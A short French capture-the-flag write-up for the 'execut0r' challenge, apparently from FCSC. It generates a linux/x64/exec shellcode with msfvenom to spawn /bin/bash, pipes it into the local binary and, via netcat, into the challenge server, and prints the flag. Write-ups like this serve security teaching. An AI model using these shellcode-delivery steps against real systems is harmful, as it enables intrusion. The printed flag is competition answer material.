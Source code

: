 Le programme lit 512 octets (même \0 ou \n avec read) et les exécute directement. Il suffit donc de passer un shellcode valide (pour 64 bits)

On va en générer un avec msfvenom.

Lister les payloads disponibles :

`msfvenom --arch x64 --platform linux --list payloads`

`linux/x64/exec      Execute an arbitrary command or just a /bin/sh shell`

"exec" attire notre attention, on vérifie comment l'utiliser :

`msfvenom -p linux/x64/exec --list-options`

```
Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    no        The command string to execute
```

On doit simplement passer la commande à exécuter avec l'option CMD, parfait.

On ajoute les options -f raw pour avoir les octets bruts et on écrit tout ça dans un fichier nommé payload

`msfvenom -p linux/x64/exec CMD=/bin/bash -f raw -o payload`

On doit utiliser le trick classique pour ne pas couper l'entrée standard après la lecture du fichier :

`cat payload - | ./execut0r` 

Ça marche, on a juste à exécuter la même commande en pipant dans netcat :

`cat payload - | nc france-cybersecurity-challenge.fr 2051`

FCSC{9f8a2eb6fbb26644dab670f1a948c449ba36102417efc3e40c3bd4774bfb4f7a}
